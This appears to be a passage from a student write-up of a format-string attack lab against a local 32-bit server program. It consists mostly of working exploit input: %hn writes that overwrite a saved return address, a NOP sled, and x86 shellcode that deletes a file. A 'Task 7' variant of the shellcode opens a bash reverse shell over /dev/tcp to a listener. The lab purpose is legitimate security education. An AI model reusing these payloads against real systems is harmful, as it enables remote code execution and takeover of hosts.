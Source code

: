 ![image-20201011170915769](image-20201011170915769.png)

And we can find that the `&buf = 0xbffff120` when executing as `sudo ./server`. So the stack offset is `0x3b0`.

modify `0xbffff0dc` to `0xbfff` , `0xbffff0de` to `0xed78`

``` bash
echo $(printf "\xde\xf0\xff\xbfABCD\xdc\xf0\xff\xbf")\
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.\
%.48940x.\
%.hn.\
%.12812x.\
%.hn.\
$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90")\
$(printf "\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80")
```

server will:

1. write the whole string to the `buf`
2. for every `%x`, up the `va_list_pointer`.
3. write some chars to adjust counter.
4. write `0xbfff` to `0xbffff0de`
5. write some chars to adjust counter.
6. write `0xf20e` to `0xbffff0dc`
7. now the return address `0xbffff0dc` is `0xbffff20e`
8. meet and skip some `0x90`
9. run the shell code

### Task 7

change shell code from ... to

``` 
\x31\xc0\x50\x68bash\x68\\\\\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
```

``` bash
echo $(printf "\xde\xf0\xff\xbfABCD\xdc\xf0\xff\xbf")\
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.\
%.48940x.\
%.hn.\
%.12812x.\
%.hn.\
$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90")\
```